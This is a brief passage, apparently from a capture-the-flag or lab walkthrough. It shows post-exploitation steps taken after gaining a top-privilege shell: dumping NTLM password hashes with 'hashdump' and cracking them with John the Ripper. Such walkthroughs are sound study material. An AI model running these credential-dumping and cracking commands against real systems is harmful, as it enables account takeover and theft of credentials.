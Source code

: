 
After getting shell as the highest user

To dump the ntlm hashes
```
hashdump
```
Going ahead to using john
```
john --format=nt hashes.txt
```
